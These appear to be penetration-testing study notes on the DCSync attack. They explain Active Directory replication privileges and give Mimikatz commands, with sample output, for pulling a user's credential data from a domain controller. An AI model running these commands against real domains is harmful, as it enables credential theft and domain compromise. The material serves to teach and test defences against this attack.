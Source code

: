 ## Domain Controller Synchronization (DCSync)

DCSync attacks exploit Active Directory replication mechanisms to impersonate domain controllers and extract user credentials directly from domain controllers without requiring direct access to domain controller systems.

### Directory Replication Service (DRS) Protocol

**Replication Mechanism:**
- **Purpose**: Synchronize domain controllers in multi-DC environments
- **API**: IDL_DRSGetNCChanges for requesting object updates
- **Authentication**: SID-based privilege verification (not DC identity verification)
- **Vulnerability**: Accepts replication requests from any appropriately privileged account

**Required Privileges:**
- **Replicating Directory Changes**: Basic replication permission
- **Replicating Directory Changes All**: Extended replication permission
- **Replicating Directory Changes in Filtered Set**: Filtered set replication permission

**Default Privilege Holders:**
- **Domain Admins**: Full replication rights
- **Enterprise Admins**: Cross-domain replication rights
- **Administrators**: Local administrator replication rights

### Windows-Based DCSync with Mimikatz

**Prerequisites:**
- Domain-joined Windows machine
- Account with replication privileges (Domain Admin, Enterprise Admin, or Administrator)
- Mimikatz tool

**Basic DCSync Attack:**
```powershell
# Navigate to tools directory
cd C:\Tools

# Launch Mimikatz
.\mimikatz.exe

# Execute DCSync attack against specific user
lsadump::dcsync /user:corp\dave
```

**DCSync Command Parameters:**
- **lsadump::dcsync**: Mimikatz module for DCSync attacks
- **/user**: Target username in domain\username format
- **/domain**: Optional domain specification
- **/dc**: Optional domain controller specification

**Sample DCSync Output:**
```
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
```
